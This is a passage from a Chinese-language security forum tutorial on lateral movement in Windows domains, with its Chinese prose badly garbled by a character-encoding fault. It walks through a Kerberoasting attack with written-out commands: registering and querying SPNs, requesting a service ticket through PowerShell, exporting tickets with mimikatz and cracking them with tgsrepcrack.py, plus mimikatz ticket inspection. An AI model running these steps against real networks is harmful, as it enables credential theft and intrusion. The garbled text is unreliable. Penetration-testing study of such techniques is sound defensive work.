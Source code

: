 ![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_347HDAVEMMRXV2W.png)  
éåºmimikatzï¼æ¥çå å­ä¸­çç¥¨æ®ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_TTYEMJQTVJDW78E.png)  
éæ°è®¿é®åæ§çå ±äº«ç®å½ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_6XEBB4ASEY47CCN.png)

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%BA%94%E3%80%81%E5%88%A9%E7%94%A8spn%E6%9C%8D%E5%8A%A1%E8%BF%9B%E8%A1%8C%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)äºãå©ç¨SPNæå¡è¿è¡æ¨ªåç§»å¨

å¨åç¯å¢ä¸­ï¼SPNæ«ææ¯æ¥æ¾ç¸å
³æå¡è¾å¥½çæ¹æ³ï¼å¯ä»¥ä»ç¸å
³æå¡çæï¼å¦MSSQLãWSMANãExchangeãTERMSERVãHyper-Vãå
¶æ«ææ¯éè¿è¯·æ±ç¹å®SPNç±»åçæå¡ä¸»é¢åç§°è¿è¡çãä¸æ®éç½ç»ç«¯å£ç¸æ¯ï¼SPNæ«æä¸éè¦è¿æ¥IPæ¥æ£æµæå¡ç«¯å£ï¼æä»¥è½è§é¿ä¸äºIPSçè§åï¼ä¸è¿è¡æ«æåªéæ®éåç¨æ·æéã  
æ³¨åSPN  
Setspn -A c3/test MSSQL  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_JFE2FPPJ7PNSFBZ.png)  
æ¥çæ³¨åçSPN  
Setspn -q _/_  
Setspn -q _/_ | findstr âMYSQLâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_Z7ZRGCTCK2TAEGE.png)  
è¯·æ±æå¡ç¥¨æ®  
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken
-ArgumentList "MySQL/win7.xie.com:3306/MySQL"  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_R8979DQSWYDTG6M.png)  
ååºæå¡ç¥¨æ®  
Klist  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_JXQTKKT3SHYT8SF.png)  
å¹¶ç¨mimikatzå°ç¥¨æ®å¯¼åº  
Kerberos::list /export  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_9GJ9D6KCKVBW7MW.png)  
æåä½¿ç¨tgsrepcrack.pyçç ´å¾å°ç¸åºå¯ç ã

#
[](https://bbs.pediy.com/thread-268289.htm#%E5%85%AD%E3%80%81%E9%9A%A7%E9%81%93%E9%80%9A%E4%BF%A1)å
­ãé§ééä¿¡

## [](https://bbs.pediy.com/thread-268289.htm)6.1 ç½ç»å±é§é

1

2

|
